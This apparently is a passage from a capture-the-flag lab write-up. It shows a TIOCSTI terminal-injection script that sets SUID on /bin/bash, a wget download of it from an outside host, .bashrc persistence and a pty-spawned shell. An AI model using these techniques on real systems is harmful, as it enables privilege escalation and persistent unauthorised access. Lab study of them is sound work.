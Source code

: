 ```bash
    563 /sbin/agetty -o -p -- \u --keep-baud 115200,38400,9600 ttyS0 vt220
    567 /usr/bin/python3 /usr/share/unattended-upgrades/unattended-upgrade-shutd
    569 /usr/lib/jvm/java-1.11.0-openjdk-amd64/bin/java -Djava.util.logging.conf
    571 /sbin/agetty -o -p -- \u --noclear tty1 linux
    631 /usr/sbin/apache2 -k start
    826 /usr/sbin/mysqld
   1260 /usr/sbin/apache2 -k start
   1261 /usr/sbin/apache2 -k start
   1262 /usr/sbin/apache2 -k start
   1263 /usr/sbin/apache2 -k start
   1264 /usr/sbin/apache2 -k start
   4200 /bin/sh
   4324 python3 -c import pty;pty.spawn("/bin/bash")
   4325 /bin/bash
...
```


```bash
:~/Backtrack# cat script.py
#!/usr/bin/env python3
import fcntl
import termios
import os
import signal

os.kill(os.getppid(), signal.SIGSTOP)

for char in 'chmod +s /bin/bash\n':
    fcntl.ioctl(0, termios.TIOCSTI, char)
```

```bash
orville@Backtrack:/tmp$ wget http://xx.xxx.xx.x/script.py
...
```

```bash
orville@Backtrack:/tmp$ echo 'python3 /tmp/script.py' >> /home/orville/.bashrc
```

```bash
0rville@Backtrack:/home$ cd orville
orville@Backtrack:/home/orville$ ls
flag2.txt  web_snapshot.zip
orville@Backtrack:/home/orville$ ls -lah
total 68K
drwxrwx--- 4 orville orville 4.0K Sep 12 02:10 .
drwxr-xr-x 4 root    root    4.0K Mar  9  2024 ..
lrwxrwxrwx 1 root    root       9 Mar  9  2024 .bash_history -> /dev/null
-rw-r--r-- 1 orville orville 3.8K Sep 12 02:34 .bashrc
drwx------ 2 orville orville 4.0K Sep 12 02:10 .cache
lrwxrwxrwx 1 root    root       9 Mar  9  2024 .mysql_history -> /dev/null
-rw-r--r-- 1 orville orville  807 Mar  9  2024 .profile
drwxr-xr-x 2 orville orville 4.0K Sep 12 02:07 .ssh
-rw------- 1 orville orville   38 Mar  9  2024 flag2.txt
-rwx------ 1 orville orville  37K Sep 12 01:27 web_snapshot.zip
```
